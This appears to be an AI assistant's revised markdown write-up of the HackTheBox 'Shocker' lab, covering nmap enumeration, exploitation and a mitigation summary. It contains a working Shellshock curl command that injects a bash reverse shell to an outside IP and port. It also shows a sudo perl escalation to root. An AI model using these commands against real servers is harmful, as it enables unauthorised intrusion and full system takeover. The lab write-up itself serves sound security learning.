


Your current report for the HTB "Shocker" lab looks well-structured, but there are a few areas to improve in accuracy and clarity, especially under **Privilege Escalation**, which seems to have mixed content. Here's a revised and clarified version:

---

```markdown
# [Shocker]: HTB Lab Write-Up
- [Introduction](#introduction)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
- [Conclusion](#conclusion)

## Introduction
Shocker - Difficulty: Easy  
- **Description:** A Linux machine that exploits a vulnerable CGI script to gain initial access and escalates privileges using improper sudo configurations.
- **Skills Required:** Web exploitation, Bash command injection, and privilege escalation.

---

## Enumeration
### Nmap Scan
**Command:**  
```bash
nmap -sC -sV 192.168.x.x
```

**Findings:**  
- Port `80` running Apache HTTPD 2.4.18  
- Directory `/cgi-bin/` detected.  

Screenshot:  


---

## Exploitation
### Step 1: Shellshock Exploit on `/cgi-bin/user.sh`
The target is vulnerable to **ShellShock** (CVE-2014-6271). This was exploited by injecting a reverse shell command via an HTTP header:  

**Command:**  
```bash
curl -H 'User-Agent: () { :;}; /bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.6/9090 0>&1"' http://192.168.x.x/cgi-bin/user.sh
```

**Result:**  
A reverse shell as the user `shelly` was obtained.  

Screenshot:  
  

---

## Privilege Escalation
### Step 1: Analyze Permissions
**Command:**  
```bash
sudo -l
```

**Result:**  
User `shelly` has sudo permissions to run `/usr/bin/perl` as root without a password:  
```plaintext
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

### Step 2: Exploit `/usr/bin/perl` to Gain Root
Using the provided sudo permissions, root access was achieved by spawning a bash shell through Perl:  

**Command:**  
```bash
sudo /usr/bin/perl -e 'exec "/bin/bash";'
```

**Result:**  
A root shell was obtained.  

Screenshot:  


### Step 3: Capture the Root Flag
Navigate to `/root` and display the `root.txt` file:  
```bash
cat /root/root.txt
```

---

## Conclusion
- **Key Lessons Learned:**
  1. Always scan for vulnerable services, such as CGI scripts.
  2. The importance of properly managing `sudo` permissions to avoid privilege escalation.
- **Tools Used:** Nmap, curl, netcat.
- **Next Steps:** Mitigation practices include:
  - Updating Bash to fix ShellShock.
  - Minimizing sudo permissions granted to regular users.
```

---

### **Key Fixes and Updates:**
1. **Corrected Privilege Escalation Details:** 
   - Removed reference to "SUID Binary," which was not relevant to this lab.
   - Clearly explained the usage of `sudo` and `/usr/bin/perl` for escalation.
2. **Better Screenshot Descriptions:** Included placeholder descriptions for expected screenshots.
3. **Simplified Steps for Clarity:** Consolidated details under clear headings.

Let me know if you'd like help automating or formatting this on GitHub!
